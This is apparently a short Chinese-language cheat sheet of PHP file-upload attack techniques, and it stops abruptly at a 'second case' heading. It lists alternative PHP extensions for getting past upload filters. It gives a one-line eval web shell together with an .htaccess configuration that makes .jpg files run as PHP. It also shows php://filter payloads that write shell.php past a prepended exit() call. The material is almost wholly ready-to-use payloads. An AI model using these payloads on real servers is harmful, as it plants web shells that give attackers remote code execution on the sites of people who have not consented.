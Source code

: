 


# 文件上传

## 后缀
```bash
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
```

## .htaccess
先传base64编码后的`1.jpg`,再传.htaccess
```php
<?php @eval($_GET[0]);
```

```php
AddType application/x-httpd-php .jpg
php_value auto_append_fi\
le "php://filter/convert.base64-decode/resource=1.jpg"
```


## php死亡绕过

- 第一种情况
`file_put_contents($filename,"<?php exit();".$content);`

```php
filename=php://filter/convert.base64-decode/resource=shell.php
#加a是为了与exit();形成4字节
content=aPD9waHAgQGV2YWwoJF9HRVRbMF0pOw==
```

```php
filename=php://filter/convert.string.rot13/resource=shell.php
content=<?cuc cucvasb();?>
```

```php
filename=php://filter/string.strip_tags|convert.base64-decode/resource=shell.php
content=?>PD9waHAgcGhwaW5mbygpOz8+
```

- 第二种情况
`file_put_contents($content,"<?php exit();".$content);`
